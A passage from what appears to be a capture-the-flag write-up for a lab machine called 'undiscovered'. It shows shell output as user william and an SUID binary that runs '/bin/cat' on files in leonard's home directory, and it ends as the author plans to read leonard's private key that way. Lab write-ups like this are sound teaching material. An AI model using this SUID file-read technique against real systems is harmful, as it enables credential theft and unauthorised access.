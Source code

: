 ```console

Last login: Thu Sep 10 00:35:09 2020 from 192.168.0.147
william@undiscovered:~$
```
And we get in.

### Shell as leonard
```console
william@undiscovered:~$ ls -la
total 48
drwxr-x--- 5 william william 4096 Nov  3 12:35 .
drwxr-xr-x 4 root    root    4096 Sep  4 22:56 ..
-rwxr-xr-x 1 root    root     128 Sep  4 21:43 admin.sh
-rw------- 1 root    root       0 Sep  9 21:46 .bash_history
-rw-r--r-- 1 william william 3771 Sep  4 22:16 .bashrc
drwx------ 2 william william 4096 Sep  4 18:33 .cache
drwxrwxr-x 2 william william 4096 Sep  4 21:49 .nano
-rw-r--r-- 1 william william   43 Sep  4 22:19 .profile
-rwsrwsr-x 1 leonard leonard 8776 Sep  4 22:11 script
drwxrwxr-x 2 william william 4096 Nov  3 12:35 .ssh
-rw-r----- 1 root    william   38 Sep 10 00:36 user.txt
```
One interesting file on the home directory of william is **script** which has a suid bit set of user leonard which means that when the executable script is run, it runs as user leonard. I donwloaded this binary and analysed on ghidra which I am not going to show here because it is pretty easy binary.
If the binary is run without argument, it will execute admin.sh with privileges of user william and if there is a argument it will try to run command `/bin/cat /home/leonard/<argument>`.

### Without argument
```console
william@undiscovered:~$ cat admin.sh 
#!/bin/sh

    echo "[i] Start Admin Area!"
    echo "[i] Make sure to keep this script safe from anyone else!"
    
    exit 0
william@undiscovered:~$ ./script 
[i] Start Admin Area!
[i] Make sure to keep this script safe from anyone else!
```

### With a argument
```console
william@undiscovered:~$ ./script test
/bin/cat: /home/leonard/test: No such file or directory
```
Okay, this means we can read any file that is owned by user leonard. But it would be so nice, if we could read his private key if present, no?

